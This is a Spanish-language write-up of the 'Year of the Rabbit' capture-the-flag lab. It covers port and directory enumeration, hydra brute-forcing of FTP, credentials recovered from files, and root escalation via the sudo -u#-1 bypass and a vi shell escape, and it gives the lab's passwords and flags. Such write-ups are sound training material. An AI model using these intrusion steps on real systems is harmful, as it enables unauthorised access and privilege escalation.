# Write-up Year of the Rabbit

## Enumeración

### Escaneo inicial

Empiezo con un escaneo rápido para identificar los puertos abiertos:

`nmap -T4 IP`

Puertos encontrados:

- 21/tcp FTP
- 22/tcp SSH
- 80/tcp HTTP - Apache

Después lanzo un escaneo más completo sobre los puertos descubiertos:

`nmap -T4 -sC -sV -O -p 21,22,80 IP`



### Enumeración web

Busco directorios y archivos interesantes con `gobuster`:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt -q -t 25 -x php,html,txt`

Directorio interesante encontrado:

- `/assets/`



Al acceder a `http://IP/assets/` encuentro dos archivos:

- `RickRolled.mp4`
- `style.css`



Dentro de `style.css` aparece un directorio secreto.



Al acceder al directorio, la web indica que hay que desactivar JavaScript, pero después redirige a un vídeo de RickRoll.

Para revisar la redirección con más detalle uso Burp Suite. Como esperaba, hay una URL intermedia oculta:

`/WExYY2Cv-qU`

Al acceder a `http://IP/WExYY2Cv-qU` encuentro una imagen.



Descargo la imagen:

`wget http://IP/WExYY2Cv-qU/Hot_Babe.png`

Después la inspecciono con `strings`:

`strings Hot_Babe.png`

En la salida encuentro un usuario para FTP:

`ftpuser`

También aparece un diccionario de posibles contraseñas. Copio esas posibles contraseñas en un archivo llamado:

`dicrabbit.txt`



## Fuerza bruta contra FTP

Uso `hydra` con el usuario encontrado y el diccionario extraído de la imagen:

`hydra -l ftpuser -P dicrabbit.txt ftp://IP`

Encuentro credenciales válidas:

- Usuario: `ftpuser`
- Password: `5iez1wGXKfPKQ`



## Acceso por FTP

Me conecto al FTP con las credenciales encontradas:

`ftp ftpuser@IP`

Enumero los archivos:

`ls -la`

Encuentro un archivo interesante:

`Eli's_Creds.txt`



Lo descargo:

`get Eli's_Creds.txt`

Al leerlo aparece un texto codificado:

`cat Eli's_Creds.txt`



El formato resulta ser Brainfuck. Lo copio y lo decodifico con:

`https://www.dcode.fr/brainfuck-language`



Obtengo las siguientes credenciales:

- Usuario: `eli`
- Password: `DSpDiM1wAEwid`

## Acceso por SSH

Me conecto por SSH como `eli`:

`ssh eli@IP`

Al entrar encuentro un mensaje dirigido a `Gwendoline`. El mensaje menciona un archivo `s3cr3t` ubicado en un lugar secreto.



Busco el archivo en el sistema:

`find / -name s3cr3t 2>/dev/null`

Lo encuentro en:

`/usr/games/s3cr3t/`



Al leer el archivo obtengo la contraseña de `gwendoline`:

`MniVCQVhQHUNI`



## Movimiento lateral

Cambio al usuario `gwendoline`:

`su gwendoline`

También sería posible conectarse directamente por SSH con las mismas credenciales:

`ssh gwendoline@IP`



## Escalada de privilegios

Compruebo los permisos de `sudo`:

`sudo -l`

El usuario puede ejecutar `vi` como `root` sobre el archivo:

`/home/gwendoline/user.txt`

Buscando información sobre esta configuración encuentro un exploit relacionado:

`https://www.exploit-db.com/exploits/47502`

Siguiendo las instrucciones, ejecuto:

`sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

Dentro de `vi` puedo leer la flag de usuario:

`THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

Después escapo de `vi` ejecutando:

`:!/bin/bash`



Con esto obtengo una shell como `root`.



La flag de root está en:

`/root/root.txt`

Root flag:

`THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`

## Resultado

Consigo acceso inicial al FTP mediante fuerza bruta con un diccionario extraído de una imagen. Desde el FTP obtengo credenciales de `eli`, después localizo la contraseña de `gwendoline` en un archivo oculto del sistema y finalmente escalo a `root` abusando de una configuración vulnerable de `sudo` con `vi`.

## Resumen de comandos hasta root

- `nmap -T4 IP`
- `nmap -T4 -sC -sV -O -p 21,22,80 IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt -q -t 25 -x php,html,txt`
- Revisar `http://IP/assets/style.css`
- Revisar la redirección con Burp Suite
- `wget http://IP/WExYY2Cv-qU/Hot_Babe.png`
- `strings Hot_Babe.png`
- `hydra -l ftpuser -P dicrabbit.txt ftp://IP`
- `ftp ftpuser@IP`
- `get Eli's_Creds.txt`
- `cat Eli's_Creds.txt`
- Decodificar el texto como Brainfuck
- `ssh eli@IP`
- `find / -name s3cr3t 2>/dev/null`
- `cat /usr/games/s3cr3t/*`
- `su gwendoline`
- `sudo -l`
- `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`
- `:!/bin/bash`
- `cat /root/root.txt`
